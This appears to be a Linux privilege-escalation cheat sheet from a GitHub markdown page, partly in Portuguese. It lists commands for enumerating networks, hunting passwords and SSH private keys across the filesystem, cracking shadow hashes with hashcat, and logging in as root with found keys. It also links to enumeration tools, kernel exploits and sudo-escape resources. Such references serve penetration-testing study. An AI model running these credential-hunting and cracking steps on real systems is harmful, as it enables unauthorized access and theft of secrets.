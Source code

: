 ###### Network Enumeration:  
```
$ ip addr
$ ip route
$ route
$ ip neigh
$ netstat -nlpt
```

###### Password Hunting:  
```
$ grep --color=auto -rnw '/' -ie "PASSWORD" --color=always 2> /dev/null
$ locate password | less
$ find / -name id_rsa 2> /dev/null
```

#### Ferramentas automatizadas:  

###### Links:  
> https://github.com/mzet-/linux-exploit-suggester  
> https://github.com/rebootuser/LinEnum  
> https://github.com/sleventyeleven/linuxprivchecker  
> https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  

#### Hijacking python:  
> https://rastating.github.io/privilege-escalation-via-python-library-hijacking/  

#### Kernel exploit excalation  
###### Links:  
> https://github.com/lucyoa/kernel-exploits  

#### Exploit files and passwords  
###### Unshadow:  
```
$ unshadow passwd shadow > unshadowed
$ hashcat -m 1800 unshadowed rockyou.txt -O 
```
###### Ssh keys:  
```
$ find / -name authorized_keys 2> /dev/null
$ find / -name id_rsa 2> /dev/null
$ chmod 600 id_rsa
$ ssh -i id_rsa root@$IP
```

#### Sudo shell escape
```
$ sudo -l
```
> Go to google and search for: GTFOBINS
###### https://gtfobins.github.io/   


#### LD_PRELOAD (carrega um objeto compartilhando antes de qualquer outro programa executado)  
> [http://manpages.ubuntu.com/manpages/trusty/man5/sudoers.5.html]  

